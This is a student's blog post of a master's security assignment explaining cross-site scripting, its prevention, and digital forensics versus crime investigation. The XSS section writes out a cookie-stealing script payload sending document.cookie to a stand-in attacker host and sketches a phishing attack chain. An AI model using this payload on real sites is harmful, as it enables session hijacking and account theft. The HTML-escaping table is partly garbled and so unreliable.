 ```yaml
---
layout: post
title: My Opinion of XSS/CSS, Digital Forensic, and Digital Crime Investigation when I was a Young Student
categories: masters
tags: [technology, computers, XSSCSS, digital forensic, assignment]
featuredimage: https://images.blurt.buzz/DQmbds3FcyD2UnctK7GepM8BFibTnGwd1vJjVAmvXHm3KHC/0.featured-image.png
description: My Opinion of XSS/CSS, Digital Forensic, and Digital Crime Investigation when I was a Young Student
canonicalurl: https://0fajarpurnama0.github.io/masters/2020/07/20/opinion-xsscss-digital-forensic-crime-investigation
---
```

![0.featured-image.png](https://images.blurt.buzz/DQmbds3FcyD2UnctK7GepM8BFibTnGwd1vJjVAmvXHm3KHC/0.featured-image.png)


## Note

This is the fourteenth assignment from my Masters Advanced Network Security Course which has never been published anywhere and I, as the author and copyright holder, license this assignment customized CC-BY-SA where anyone can share, copy, republish, and sell on condition to state my name as the author and notify that the original and open version available here.

## 1\. XSS/CSS

XSS/CSS stands for cross site scripting which is a computer security vulnerability to inject scripts into web pages viewed by other users [1]. What is the difference between code injection? Code injection is a server side vulnerability while XSS is a client side vulnerability, what they have in common is they are injection type attack [2]. One of the easiest method to check for XSS vulnerability is to include a html tags into the submission form, for example on Figure 1 is an ```<S>``` (strike-through) html tag inserted on a simple php form input (any php tutorial on the web have this tutorial) and Figure 2 is an example of using ```<img src=””>``` tag to add an image, even worse we can input tags that could display the attacker site instead and take the victim site with ```<script>```document.location="http://some_attacker/cookie.cgi?" + document.cookie```</script>```. (1) Once a XSS vulnerability had been found we can send a phising email to the user of the site containing the XSS script. (2) With a good social engineering the user site can be tricked in running the code and connect to attacker's site through the vulnerable XSS site. (3) The attacker can obtain the session ID and other informations of the victim. [3]

![1.strikethroughXSSexample.png](https://images.blurt.buzz/DQmYm6X16ideByV9t7ZAJnXb5ypBVHbq3khnuhkvkkB4AYz/1.strikethroughXSSexample.png)

Figure 1\. Checking XSS vulnerability strike through HTML tag example.



To prevent XSS we have to filter the user input. One way is to not allow html tags for, or perform sensitization allowing text formatting tag such as ```<B>``` ```<U>``` ```<I>``` ```<S>```, and converting dangerous tags like “&→&amp”, “&lt→&lt”, “&gt→&gt”, “”→&quot”, “'→&x27”, and “/→&x2f”. For my above PHP code I can fix it by changing the output function (adding) into “echo htmlspecialchars($string, ENT_QUOTES, 'UTF-8')”. There are libraries available for filtering XSS if it's difficult to make our own libraries such as “PHP AntiXSS”, “xss_clean.php filter”, “htmlpurifier”, “xssprotect”, and “XSS html filter”. [4]

![2.imgsrcXSS.png](https://images.blurt.buzz/DQmYqWwbtpStpvT7u52VrGNSTGKKnaGh5c9tuZtAAmAhGyE/2.imgsrcXSS.png)

Figure 2\. Checking XSS vulnerability image HTML tag example.



## 2\. Digital Crime Investigation vs Digital Forensic

Digital crime investigation is mainly used in criminal investigation in order to enhance the criminal investigation process itself. It's more like an auxiliary to tool in which is specifically digital typed tools. For example (1) the use of surveillance camera to capture robbery incident in stores, (2) categorizing data, clustering data, plotting graph, which is under data mining, (3) using database to store crime records. On the other hand digital forensic is to extract, collect, analyze, and preserve digital evidence, for example to be shown in court. [5]

![3.digital-forensic-on-hardware.png](https://images.blurt.buzz/DQmautrcqEVMghJ5C6GvKa4N5CRGqAoG187s1oh7zcFSMWi/3.digital-forensic-on-hardware.png)

Figure 3\. Illustration of digital forensic on hardware containing data.



Both digital crime investigation and digital forensic are part of a subject called forensic science. Performing autopsy on a dead body to find the cause of death is an example of medical forensic. Then examining a computer to search for informations of itself being attacked is an example of digital forensic. The basic step is to (1) identify the attack, its extent and damage caused, (2) identify the source of the attack, (3) record the incident. The scope of digital forensic can be computer forensic as example above, or network forensic which the larger scale with the computer forensic included into the network forensic. Unlike medical forensic we can first create a duplicate of the computer data or network data before running digital forensic which is a safe type of investigation that avoids the risk of destroying the evidence. Most popularly examined on digital forensics are maintenance of files and folders, disk logs, server logs, logs from IDS/IPS, and network packets if captured. [5]

## 3\. Reference

1.  [https://en.wikipedia.org/wiki/Cross-site_scripting](https://en.wikipedia.org/wiki/Cross-site_scripting)
2.  [https://community.rapid7.com/community/nexpose/blog/2013/06/20/xss-vs-injection](https://community.rapid7.com/community/nexpose/blog/2013/06/20/xss-vs-injection)
3.  [http://md.kumamoto-u.ac.jp/mod/book/view.php?id=98590&chapterid=4892](http://md.kumamoto-u.ac.jp/mod/book/view.php?id=98590&chapterid=4892)
4.  [http://resources.infosecinstitute.com/how-to-prevent-cross-site-scripting-attacks](http://resources.infosecinstitute.com/how-to-prevent-cross-site-scripting-attacks)
5.  [http://md.kumamoto-u.ac.jp/mod/book/view.php?id=98593&chapterid=4897](http://md.kumamoto-u.ac.jp/mod/book/view.php?id=98593&chapterid=4897)

## Mirrors

*   [https://www.publish0x.com/fajar-purnama-academics/my-opinion-of-xsscss-digital-forensic-and-digital-crime-inve-xlyemxz?a=4oeEw0Yb0B&tid=github](https://www.publish0x.com/fajar-purnama-academics/my-opinion-of-xsscss-digital-forensic-and-digital-crime-inve-xlyemxz?a=4oeEw0Yb0B&tid=github)
*   [https://0darkking0.blogspot.com/2021/02/my-opinion-of-xsscss-digital-forensic.html](https://0darkking0.blogspot.com/2021/02/my-opinion-of-xsscss-digital-forensic.html)
*   [https://0fajarpurnama0.medium.com/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student-125b754a3a89](https://0fajarpurnama0.medium.com/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student-125b754a3a89)
*   [https://0fajarpurnama0.github.io/masters/2020/07/20/opinion-xsscss-digital-forensic-crime-investigation](https://0fajarpurnama0.github.io/masters/2020/07/20/opinion-xsscss-digital-forensic-crime-investigation)
*   [https://hicc.cs.kumamoto-u.ac.jp/~fajar/masters/opinion-xsscss-digital-forensic-crime-investigation](https://hicc.cs.kumamoto-u.ac.jp/~fajar/masters/opinion-xsscss-digital-forensic-crime-investigation)
*   [https://steemit.com/technology/@fajar.purnama/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student?r=fajar.purnama](https://steemit.com/technology/@fajar.purnama/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student?r=fajar.purnama)
*   [https://stemgeeks.net/technology/@fajar.purnama/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student?ref=fajar.purnama](https://stemgeeks.net/technology/@fajar.purnama/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student?ref=fajar.purnama)
*   [https://blurtter.com/blurtech/@fajar.purnama/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student?referral=fajar.purnama](https://blurtter.com/blurtech/@fajar.purnama/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student?referral=fajar.purnama)
*   [https://0fajarpurnama0.wixsite.com/0fajarpurnama0/post/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student](https://0fajarpurnama0.wixsite.com/0fajarpurnama0/post/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student)
*   [http://0fajarpurnama0.weebly.com/blog/my-opinion-of-xsscss-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student](http://0fajarpurnama0.weebly.com/blog/my-opinion-of-xsscss-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student)
*   [https://0fajarpurnama0.cloudaccess.host/index.php/9-fajar-purnama-academics/205-my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student](https://0fajarpurnama0.cloudaccess.host/index.php/9-fajar-purnama-academics/205-my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student)
*   [https://read.cash/@FajarPurnama/my-opinion-of-xsscss-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student-81cbb266](https://read.cash/@FajarPurnama/my-opinion-of-xsscss-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student-81cbb266)
*   [https://www.uptrennd.com/post-detail/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student~ODYyMzY4](https://www.uptrennd.com/post-detail/my-opinion-of-xss-css-digital-forensic-and-digital-crime-investigation-when-i-was-a-young-student~ODYyMzY4)